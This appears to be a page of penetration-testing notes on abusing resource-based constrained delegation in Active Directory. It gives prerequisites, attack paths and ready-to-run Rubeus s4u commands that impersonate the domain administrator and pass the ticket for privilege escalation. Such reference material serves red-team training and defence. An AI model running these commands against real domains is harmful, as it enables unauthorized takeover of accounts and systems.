 ## Attack Scenario

### Scenario 1 (Generic DACL Abuse)

Scenario:
- ServiceA is compromised computer account with:
    - credentials and the ability 
    - DACL write privilege to modify `msDS-AllowedToActOnBehalfOfOtherIdentity` on the desired target
- ServiceB is our desired target

Attack Path:
1. Use ServiceA's DACL write privilege to include ServiceA on ServiceB's `msDS-AllowedToActOnBehalfOfOtherIdentity`
    - result: now ServiceA is RBCD to ServiceB
2. `S4U2Self` on ServiceA impersonating non-sensitive user
    - result: TGS for non-sensitive user to access ServiceA
3. `S4U2Proxy` on ServiceA
    - result: TGS for the impersonated user to access ServiceB
    - reason: this works regardless of previous TGS forwardable flag

```ps1
.\Rubeus.exe s4u /user:ServiceA$ /rc4:$ServiceANtlmHash /domain:domain.local /msdsspn:cifs/serviceb.domain.local /impersonateuser:administrator /ptt

# Outcome: PrivEsc on `ServiceB`
```

### Scenario 2 (Reflective RBCD)

> [!WARNING]
> According to [@M4yFly](https://twitter.com/M4yFly) testing, this has been sliently patched by Microsoft

Pre-requisites:
- computer account credentials or TGT (to perform `S4U2Self`)
- `TRUSTED_TO_AUTH_FOR_DELEGATION` set on computer account (if the computer account is constrained delegation w/o protocol transition, then the `S4U2Proxy` would fail since the resulting TGS from `S4U2Self` is non-forwardable due to the absence of `TRUSTED_TO_AUTH_FOR_DELEGATION`)
- DACL to modify the computer account `msDS-AllowedToActOnBehalfOfOtherIdentity`

```ps1
# Use DACL to include `ServiceA` on `ServiceA`'s `msDS-AllowedToActOnBehalfOfOtherIdentity`

# With credentials
.\Rubeus.exe s4u /user:ServiceA$ /rc4:$ServiceANtlmHash /domain:domain.local /msdsspn:cifs/servicea.domain.local /impersonateuser:administrator /ptt

# Or with TGT
.\Rubeus.exe s4u /user:ServiceA$ /ticket:<bas64 blob> /domain:domain.local /msdsspn:cifs/servicea.domain.local /impersonateuser:administrator /ptt

# Outcome: PrivEsc on `ServiceA`
```
